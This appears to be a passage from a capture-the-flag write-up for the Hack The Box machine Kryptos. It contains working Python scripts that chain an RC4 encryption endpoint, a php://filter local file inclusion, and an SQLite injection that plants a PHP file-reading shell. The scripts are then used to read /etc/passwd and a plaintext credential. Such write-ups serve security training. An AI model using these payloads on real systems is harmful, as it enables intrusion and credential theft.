cf296edbdf820f370f2b71008b88eb36827e5088181da826cadd0dc78d2e6bac677ade7809eff6bc0a363fdbe4b145bea5af8eacf6ec31f568ea50236071ce2b49ebd7a41e568243e64eddd5d1a3fb9ac88cf03b808ec022f98033f0c0db18c8cbd2ddfed0832573d7d794a9682ddd9c812b6654a6b5dedab6ee2434a2cfe3a13a5d31bc7f7a80048727124d247833d0f592139bb08aeec8f21d2d9c227a6c52f0a1e395bed4c989b4831df1aad83e2dbde3cc6da51a8a4fa2b07224f3c7d05984e22f76fcb95b96471aff94ae9632dff5f0582739379b0424d29eb74d5a911db0e7bab140ec96ccc353f7c243356c0b5ad40446dcaf3dcd1b1bf2e4a93407781e8a762de0b8e8061b358a6240c67b416833b974458510bd41a36cff411759fb7e12f48d87f95d5cfd7e53548ad2ded6f91b210b78c92b246d264c6683a8970d8d0e8c66421ccc5ab012909d59fad3a947981276575d8e3f21d85be1d7f679f6015cab3967ef2285855aca9a9509136782231c258052f5278072b42f0f4cad11aabddc2c1e3a3195209d1ba5875853ef288095c681e9dfec12eb425ca6f510e3ad1f1fd1e900a8646834574ddcaf6db655642dadaa4f20e847afe768b2e13a992f0699a75b645869d985f23793987b990379db3c858ca4aa065797fc65c666df81d48d98f9baf2d4b445050d6ba20edc9a5397133df836e582e7c42b3de20520f85e980ff5aa27ad29fc02ae2e8e70bb7eea0d7ac1da026dcf04414f2e119700079e06c58874b050a8b155031f35c2f66c749254d6191f9b1b132f52ad8fc07ef9619f14c89dc3af7f65beb82092bf2eb1bebcfc6b448217ced7097076641c04ba71c09438a6633cb8a530716c66cf635d3c0df511f1671e1d25266c3deccfd06d40117d566d0246bac8e6179cc6ea73288abfbaeb9ff8d7cd66843f777ff96de03d2cfd48b7164f07e88254aac5fa2f767522936b61b72203f3dd79c385744a29c34e304376ac8f8be723e6a7671d9d8493e604a53d8bf03de2c78b3f3e522f44cc30564b8629737cf2cebf11ce4f24b87fd22a2fdb1d513c84fe74ba0043d6f89432122f6ad421da0882bec555e9599f3b1eac59e3e5bde32b5499c4fa54abad615554b34a2462d1aae1441061424706cc89e024a2fa1fc5a79932d2b1213b707b618c9a3eef2dd121f4a767234bb70b0e67edaa2c0f23c44181b4a941f9cb48ff45bbaa20a667effe37d0ebf313ebd0e90ff4ae68e7c21f269b08285a0afca0a6976f26f08d20e40f8a9fe200183b0e5acbf736614e9ede6e453ae978fabc92c6cb15e4dc08a970cc4b64c73905d7929283c470e33e6bbdcff31b50a778df4b06127ae5fc70a2d6c5399ad8c1114a6b7e4194f33027997c8391bc2f40e256e73525649936c74b39a7b61ab2d0facbbad48962df4df7d136659e1982c764e4f4570f9ee9fb65d6749edbbd8a53a4adc16e299a2186335c894c51290f8305cb9c9c6c22d484f9e648911ef3312fbc4e67b3b4e043c609b0cfd017865b8918aaaae507d32dfe3e85019de24889bad639775e54f5266d964e533e417c623e0419a51a056252ac5582efa5cc7e62cf7289b3b04a89c0442930eec99734fbf0309080d83e9248b2046d903bbd6dc9c366e533806feb28cd6da1a7a2bbfeba8c0ff2f2f20256033ad8a11b591794e526a890227a074a009ed6c6e52a247658d2abe136d7cc9a977426d2f7176fc9ea8bb6fb3a5d92b1ea91c2559678b1e0d71c08290d1c6b1b89f7f4079ad95800c49efc89066ca065f9b9bc3c822d83d1c135a56ffbd5e1a2e2bdd50314a57e25091d304a57f31a6b937ed6fa3d1af17f40760fcb26fb5c46d99dbf13814713bee7033f01046ba5425fa32bf1119ce904480fd0f5a0eeb184db558134f8cfe3c151eb6d601c8959c275432c4e90ecbb0595658f0cbe4b5a9eba066e7b057146e571d774e904dc5600b4ea0b03a1240b5667e32be323e92b371bf7fb087dae3570ddc7d9b4b3569c151635072606fe0f4220162eb5fa4c27950df47413a96192688257bda4fc6fa2451f24ccdc93db13e48068784d6a258144a4e6134ca504436708f88adfe22e201db4b22db73ee93adee2ff4209e755a6014717c3bb5a890e84cdf073e6967b345689751b26c4b8386516b0de7e91fa493f50e5e855795bd85caeb7a6bafb815c5824be48aa0c4f2a3d021fb10d966e68b5c8f3d1be996e6257d546a77cebe2e4481afced5ea67f4329893721dfd42bc62f8797c3ced7d4fe4dce8211c8fe5b6c9384c9962cdacfca33b8e2c15ffc581fc370248ab76b8192b57a50248572918b5afac2adf0f6f1148c552382c82b62a6eb4b7590fbb2e12b3a3161d12f9a50a85ebeb6adc294097bf022cc51e40921a544571d49e50cd5443cb2b83139112ee52acecad30c3a2f21a34709b2eda549cdea5abec0c377801fd5e66e889d68d674b8998c4ea8f2aca9cec3ec86c5a9d254eeb8d5a702b9d383d5785eccd87798b52d5d0e49c6bc33180a101c91c5562a687fc4d66296cede7a16ca814da6e823f3b727cec9d92c9956ab7e4171f1f62c9c6bbf0357be1dade24536432e575f2393165fc99a0a968dc11865a084c7f8e9890f58f618ab0ca32db56de46c9e018c9f2654fdaee731d8d0a5a742e4148e4176c0b4ad5460dea19c0d01915343c53d6e3ac6c482ccbfda6ee71ec88df244c7a317a6aeb1f230d083ca07b6b5f19d8b36856115aa6c45c9ce18654e8af08da0701f194d34ac2b455b453adb9c651a57d3b1c20a45ea38f8d9c73b1d99a1ca90e85d0e0ced37fce4589ce945e4c1d33120285d57da3ee0c2c1a03b7cb034ca1d63a28cd7b34374aca16c9d5753cd0caebcffb7f3ae52ad7299ca8d32f2fbe256995f55a0f66730f680fde79e499759848a30666f45a03926fdb77762e5f8ccd427bef0b80d0d913adaca1bb72ac553ceb443c8db5277a1e023193642230c243ab6b48226ddddcd514bec384d5945326c6e0fd24e4a36473ac9d4c9f6a10eeae1557e197ba3922354b1879cb8a133178843faf8067da7d58183599fc287c1034696064ba642ad6edb1cb825b2c40d48dc16afc65
         ```
   4. Decrypt the encrypted page/file:
      ```py
      # kryptos_decrypt.py
      import requests as r
      
      target = "http://10.10.10.129"
      htb_ipv4 = "10.10.12.248"
      session = r.Session()
      
      def clearScreen(clear="clear"):
          __import__("os").system(clear)
      
      def encodeURL(parameter_value):
          return __import__("urllib").parse.quote(parameter_value)
      
      def encryptRC4(file_url):
          parameters = (("cipher", "RC4"), ("url", file_url))
          return session.get(target+"/encrypt.php", params=parameters)
      
      def extractText(regex_filter, text):
          return __import__("re").findall(regex_filter, text)[0]
      
      def decryptRC4(rc4_base64):
          print("\n[Decrypted RC4]\n")    
          if(rc4_base64):     
              rc4 = __import__("base64").b64decode(rc4_base64)
              key_stream = open("rc4_key_stream", "rb").read()
              return "".join([chr(rc4[x]^key_stream[x]) for x in range(0, len(rc4))])
          else: return "Nothing was decypted..."
      
      clearScreen()
      
      data = {
          "username": "placeholder",
          "password": "placeholder",
          "db": "cryptor;host="+htb_ipv4,
          "token": session.get(target).text[737:801],
          "login": ""
      }
      req_post = session.post(target, data=data)
      
      while True:
          clearScreen()
          file_in = input("Load http:// pages/files: ")
          if(file_in==""): exit()
          
          req_encryption = encryptRC4(file_in)
          rc4_base64 = extractText('<text.*id="output">(.*)</text', req_encryption.text)
          if(rc4_base64): print(decryptRC4(rc4_base64))
          else:
              print("\n[ERROR]\n")
              print(extractText('alert-danger">\n(.*)</div>', req_encryption.text) + "\n")
      
          input("--Press Enter to continue--")
      ```
      - `http://10.10.10.129/index.php`:
        ```html        
        <html>
        <head>
          <title>Cryptor Login</title>
          <link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
        </head>
        <body>
        <div class="container-fluid">
        <div class="container">
          <h2>Cryptor Login</h2>
          <form action="" method="post">
            <div class="form-group">
              <label for="Username">Username:</label>
              <input type="text" class="form-control" id="username" name="username" placeholder="Enter username">
            </div>
            <div class="form-group">
              <label for="password">Password:</label>
              <input type="password" class="form-control" id="password" name="password" placeholder="Enter password">
            </div>
            <input type="hidden" id="db" name="db" value="cryptor">
            <input type="hidden" name="token" value="93d6ee6db5642c0c60cdf701fddcdbc53cc4e501f3f94802c4e3b0dd93d6d797" />
            <button type="submit" class="btn btn-primary" name="login">Submit</button>
          </form>
        </div>
        </body>
        </html>
        ```
      - `http://10.10.10.129/dev`
        ```html
        <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
        <html><head>
        <title>403 Forbidden</title>
        </head><body>
        <h1>Forbidden</h1>
        <p>You don't have permission to access /dev
        on this server.<br />
        </p>
        <hr>
        <address>Apache/2.4.29 (Ubuntu) Server at 10.10.10.129 Port 80</address>
        </body></html>
        ```
      __NOTE(S)__:
      1. The decrypted page for `/encrypt.php` is blank.
      2. Although `/index.php` was requested, a rendered html of the PHP file was returned after the decryption.
         - Maybe the pages are being passed through `curl` inside `encrypt.php` or `url.php` (from the earlier gobuster enumeration)
      3. Requesting `/dev` still returns `403 Forbidden`:
         - Since the http requests are being handled by the server, requesting the pages via `localhost` or `127.0.0.1` should return the same results when passed through `curl`
         - But this time, `/dev` might no longer return `403 Forbidden`.

3. Request `http://127.0.0.1/dev` using __kryptos_decrypt.py__:
   ```html    
   <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
   <html><head>
   <title>301 Moved Permanently</title>
   </head><body>
   <h1>Moved Permanently</h1>
   <p>The document has moved <a href="http://127.0.0.1/dev/">here</a>.</p>
   <hr>
   <address>Apache/2.4.29 (Ubuntu) Server at 127.0.0.1 Port 80</address>
   </body></html>
   ```  
   ```html   
   <html>
       <head>
       </head>
       <body>
   	<div class="menu">
   	    <a href="index.php">Main Page</a>
   	    <a href="index.php?view=about">About</a>
   	    <a href="index.php?view=todo">ToDo</a>
   	</div>
   </body>
   </html>
   ```
   __NOTE(S)__:
   1. There is another webapp running on `/dev/`:
      - The get parameter, `view`, is used to load page content.
      - __ASSUMPTION__: the pages loaded are passed through `view` with the extension (`.php`) truncated
   2. `?view=todo`:
      ```html 
      <html>
          <head>
          </head>
          <body>
      	<div class="menu">
      	    <a href="index.php">Main Page</a>
      	    <a href="index.php?view=about">About</a>
      	    <a href="index.php?view=todo">ToDo</a>
      	</div>
      <h3>ToDo List:</h3>
      1) Remove sqlite_test_page.php
      <br>2) Remove world writable folder which was used for sqlite testing
      <br>3) Do the needful
      <h3> Done: </h3>
      1) Restrict access to /dev
      <br>2) Disable dangerous PHP functions
      
      </body>
      </html>
      ```
      - There is an `sqlite_test_page.php` but returns no relevant content when called via `?view=`
        - This might change if it is asking for user input.
        - Hidden PHP code may be revealed if __*PHP filters*__ are allowed.
      - The world writable directory should still exist somewhere.
        - It is still in the `ToDo List`

### __PORT 80 (sqlite_test_page.php)__

1. Exploit the `?view=` parameter using PHP filters to achieve LFI:
   ```py
   # kryptos_read_php.py
   import requests as r
   
   target = "http://10.10.10.129"
   htb_ipv4 = "10.10.12.248"
   session = r.Session()
   
   def clearScreen(clear="clear"):
       __import__("os").system(clear)
   
   def encodeURL(parameter_value):
       return __import__("urllib").parse.quote(parameter_value)
   
   def encryptRC4(file_url):
       parameters = (("cipher", "RC4"), ("url", file_url))
       return session.get(target+"/encrypt.php", params=parameters)
   
   def extractText(regex_filter, text):
       return __import__("re").findall(regex_filter, text)[0]
   
   def decryptRC4(rc4_base64):
       print("\n[Decrypted RC4]\n")    
       if(rc4_base64):     
           rc4 = __import__("base64").b64decode(rc4_base64)
           key_stream = open("rc4_key_stream", "rb").read()
           return "".join([chr(rc4[x]^key_stream[x]) for x in range(0, len(rc4))])
       else: return "Nothing was decypted..."
   
   data = {
       "username": "placeholder",
       "password": "placeholder",
       "db": "cryptor;host="+htb_ipv4,
       "token": session.get(target).text[737:801],
       "login": ""
   }
   req_post = session.post(target, data=data)
   
   while True:
       clearScreen()
   
       file_in = input("LFI for PHP Files (omit .php): ")
       if(file_in==""): exit()
   
       payload = "php://filter/convert.base64-encode/resource=" + file_in
       file_in = "http://127.0.0.1/dev/?view=" + payload
   
       req_encryption = encryptRC4(file_in)
       rc4_base64 = extractText('<text.*id="output">(.*)</text', req_encryption.text)
       if(rc4_base64): 
           lfi_content = extractText('</div>\n(.*)</body>', decryptRC4(rc4_base64))
           print(__import__("base64").b64decode(lfi_content).decode("unicode_escape"))
   
       input("--Press Enter to continue--")
   ```
   - `sqlite_test_page.php` in `kryptos_read_php.py`
     ```php
     # LFI for PHP Files (omit .php): sqlite_test_page
     
     # [Decrypted RC4]
     
     <html>
     <head></head>
     <body>
     <?php
     $no_results = $_GET['no_results'];
     $bookid = $_GET['bookid'];
     $query = "SELECT * FROM books WHERE id=".$bookid;
     if (isset($bookid)) {
        class MyDB extends SQLite3
        {
           function __construct()
           {
     	 // This folder is world writable - to be able to create/modify databases from PHP code
              $this->open('d9e28afcf0b274a5e0542abb67db0784/books.db');
           }
        }
        $db = new MyDB();
        if(!$db){
           echo $db->lastErrorMsg();
        } else {
           echo "Opened database successfully
     ";
        }
        echo "Query : ".$query."
     ";
     
     if (isset($no_results)) {
        $ret = $db->exec($query);
        if($ret==FALSE)
         {
     	echo "Error : ".$db->lastErrorMsg();
         }
     }
     else
     {
        $ret = $db->query($query);
        while($row = $ret->fetchArray(SQLITE3_ASSOC) ){
           echo "Name = ". $row['name'] . "
     ";
        }
        if($ret==FALSE)
         {
     	echo "Error : ".$db->lastErrorMsg();
         }
        $db->close();
     }
     }
     ?>
     </body>
     </html>
     
     --Press Enter to continue--
     ```
     __NOTE(S)__:
     1. `sqlite_test_page.php` takes two GET parameters -- `no_results` and `bookid`:
        - `bookid` is fed to the query `"SELECT * FROM books WHERE id=".$bookid`
        - If `no_results` is set with a value, the query is run using `$db->exec($query)`
        - Otherwise, the query would run using `$db->query($query)`
     2. `$db->query($query)` return values from the database while `$db->exec($query)` doesn't so the earlier is often used for SELECT statements while the latter is used for CREATE, DELETE, DROP, INSERT, or UPDATE.
     3. The world writable directory mentioned earlier must be `d9e28afcf0b274a5e0542abb67db0784/`

2. Write a PHP file to the world writable directory:
   1. Create an SQLite3 Injection payload:
      ```sql
      1; ATTACH DATABASE "d9e28afcf0b274a5e0542abb67db0784/lfi.php" AS fileview; CREATE TABLE fileview.code (php text); INSERT INTO fileview.code (php) VALUES ("<?php
      if(isset($_GET['file'])) {
          echo '\n\n[[['.file_get_contents($_GET['file']).']]]\n\n';
      }
      else if(isset($_GET['dir'])) {
          print_r(scandir($_GET['dir']));
      }
      ?>");
      ```
      __NOTE(S)__:
      1. `ATTACH DATABASE "d9e28afcf0b274a5e0542abb67db0784/lfi.php" AS fileview;`
         - This creates a database file with a database named, `fileview`.
         - This is written to all written to a file named, `lfi.php`.
         - If `lfi.php` doesn't exist, it will be created.
      2. `CREATE TABLE fileview.code (php text);`
         - This creates a table, `code`, with one column (`php`)
      3. `INSERT INTO fileview.code (php) VALUES ("...omitted...");`
         - This will write the code to be executed when `lfi.php` is called.
      4. `exec()`, `shell_exec()`, and `system()` are prohibited.
         - According to `?view=todo`, dangerous PHP functions are prohibited.
      5. `file_get_contents()` read contents of a file while `scandrir()` returns a listing of the requested directory.
         - This is perfect for enumerating readable directories and files.

3. Create a script that abuses the SQL injection payload:
   ```py
   # kryptos_lfi.py
   import requests as r
   
   target = "http://10.10.10.129"
   htb_ipv4 = "10.10.12.248"
   session = r.Session()
   
   def clearScreen(clear="clear"):
       __import__("os").system(clear)
   
   def encodeURL(parameter_value):
       return __import__("urllib").parse.quote(parameter_value)
   
   def encryptRC4(file_url):
       parameters = (("cipher", "RC4"), ("url", file_url))
       return session.get(target+"/encrypt.php", params=parameters)
   
   def extractText(regex_filter, text):
       return __import__("re").findall(regex_filter, text)[0]
   
   def decryptRC4(rc4_base64):
       print("\n[Decrypted RC4]\n")    
       if(rc4_base64):     
           rc4 = __import__("base64").b64decode(rc4_base64)
           key_stream = open("rc4_key_stream", "rb").read()
           return "".join([chr(rc4[x]^key_stream[x]) for x in range(0, len(rc4))])
       else: return "Nothing was decypted..."
   
   # HTTP Session
   data = {
       "username": "placeholder",
       "password": "placeholder",
       "db": "cryptor;host="+htb_ipv4,
       "token": session.get(target).text[737:801],
       "login": ""
   }
   req_post = session.post(target, data=data)
   
   # SQLite3 Injection Payload
   output_file = "d9e28afcf0b274a5e0542abb67db0784/lfi.php"
   database = "; ATTACH DATABASE \"" + output_file + "\" AS fileview"
   table = "; CREATE TABLE fileview.code (php text)"
   php_code = """<?php
   if(isset($_GET['file'])) {
       echo '\n\n[[['.file_get_contents($_GET['file']).']]]\n\n';
   }
   else if(isset($_GET['dir'])) {
       print_r(scandir($_GET['dir']));
   }
   ?>"""
   table_value = "; INSERT INTO fileview.code (php) VALUES (\"" + php_code + "\");"
   
   # Upload lfi.php to the world writable directory
   injection = "1" + database + table + table_value
   injectable = "http://127.0.0.1/dev/sqlite_test_page.php?no_results=1&bookid="
   url_in = injectable + encodeURL(injection)
   encryptRC4(url_in)
   
   while True:
       clearScreen()
   
       file_in = "?file=" + encodeURL(input("View contents of: "))
       if(file_in=="?file="): 
           file_in = "?dir=" + encodeURL(input("View directory listing: "))
           if(file_in=="?dir="): exit()
   
       url_in = "http://127.0.0.1/dev/"+ output_file + file_in
       req_encryption = encryptRC4(url_in)
      
       rc4_base64 = extractText('<text.*id="output">(.*)</text', req_encryption.text)
       print(decryptRC4(rc4_base64))
   
       input("--Press Enter to continue--")
   ```
   - `/etc/passwd` in `kryptos_lfi.py`
     ```
     View contents of: /etc/passwd
     
     ...omitted...
     
     root:x:0:0:root:/root:/bin/bash
     ...omitted...
     rijndael:x:1001:1001:,,,:/home/rijndael:/bin/bash
     ...omitted...
     ```
   - `/home/rijndael` in `kryptos_lfi.py`
     ```
     View contents of: 
     View directory listing: /home/rijndael
     
     ...omitted...
     (
         ...omitted...
         [9] => creds.old
         [10] => creds.txt
         [11] => kryptos
         [12] => user.txt
     )
     
     --Press Enter to continue--
     ```
   - `/home/rijndael/creds.old` in `kryptos_lfi.py`:
     ```
     View contents of: /home/rijndael/creds.old

     ...omitted...

     [[[rijndael / Password1
     ]]] 


     --Press Enter to continue--
     ```
     __NOTE(S)__:
     1. `[[[` and `]]]` are just markers to know where the file contents start and end.

   - `/home/rijndael/creds.txt` in `kryptos_encrypt.py`
     1. Encrypted content:
        ```
        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